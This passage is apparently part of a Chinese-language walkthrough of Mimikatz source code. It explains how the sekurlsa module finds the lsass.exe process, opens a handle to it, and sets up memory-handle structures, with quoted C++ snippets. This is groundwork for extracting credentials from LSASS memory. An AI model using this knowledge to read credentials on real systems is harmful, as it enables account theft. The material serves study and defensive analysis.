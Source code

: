 ```c++

        if(!NT_SUCCESS(status))
            cLsass.hLsassMem = kull_m_memory_close(cLsass.hLsassMem);
    }
    return status;
}
```

由于 `pMinidumpName` 初始值为 NULL，因此会通过 `kull_m_process_getProcessIdForName` 和 `OpenProcess` 两个函数获取 lsass.exe 进程的 PID，并创建一个进程的句柄 `hData`。然后调用 `kull_m_memory_open()` 函数。

Initialize LSA Context
----------------------

`kull_m_memory_open()` 函数传入的第三个参数为 `&amp;cLsass.hLsassMem`，其中 `cLsass` 是一个 `KUHL_M_SEKURLSA_CONTEXT` 结构体，如下所示。

```c++
typedef struct _KUHL_M_SEKURLSA_CONTEXT {
    PKULL_M_MEMORY_HANDLE hLsassMem;
    KUHL_M_SEKURLSA_OS_CONTEXT osContext;
} KUHL_M_SEKURLSA_CONTEXT, *PKUHL_M_SEKURLSA_CONTEXT;
```

hLsassMem 用于存储进程的句柄等有关信息，其结构如下，在 MSV 功能种只用到了其中的 `pHandleProcess`：

```c++
typedef struct _KULL_M_MEMORY_HANDLE {
    KULL_M_MEMORY_TYPE type;
    union {
        PKULL_M_MEMORY_HANDLE_PROCESS pHandleProcess;
        PKULL_M_MEMORY_HANDLE_FILE pHandleFile;
        PKULL_M_MEMORY_HANDLE_PROCESS_DMP pHandleProcessDmp;
        PKULL_M_MEMORY_HANDLE_KERNEL pHandleDriver;
    };
} KULL_M_MEMORY_HANDLE, *PKULL_M_MEMORY_HANDLE;
```

跟进 `kull_m_memory_open()` 函数，其作用就是为 `cLsass.hLsassMem` 结构里面的 `pHandleProcess` 开辟内存并设置 cLsass.hLsassMem.pHandleProcess-&gt;hProcess 为 lsass 进程的句柄。

- kull\_m\_memory.c

```c++
BOOL kull_m_memory_open(IN KULL_M_MEMORY_TYPE Type, IN HANDLE hAny, OUT PKULL_M_MEMORY_HANDLE *hMemory)
{
    BOOL status = FALSE;

    *hMemory = (PKULL_M_MEMORY_HANDLE) LocalAlloc(LPTR, sizeof(KULL_M_MEMORY_HANDLE));
    if(*hMemory)
    {
        (*hMemory)-&gt;type = Type;
        switch (Type)
        {
        case KULL_M_MEMORY_TYPE_OWN:
            // ......
        case KULL_M_MEMORY_TYPE_PROCESS:
            // 为 pHandleProcess 开辟内存
            if((*hMemory)-&gt;pHandleProcess = (PKULL_M_MEMORY_HANDLE_PROCESS) LocalAlloc(LPTR, sizeof(KULL_M_MEMORY_HANDLE_PROCESS)))
            {
                // 将 pHandleProcess-&gt;hProcess 赋值为 lsass 进程的句柄
                (*hMemory)-&gt;pHandleProcess-&gt;hProcess = hAny;
                status = TRUE;
            }
            break;
        case KULL_M_MEMORY_TYPE_FILE:
```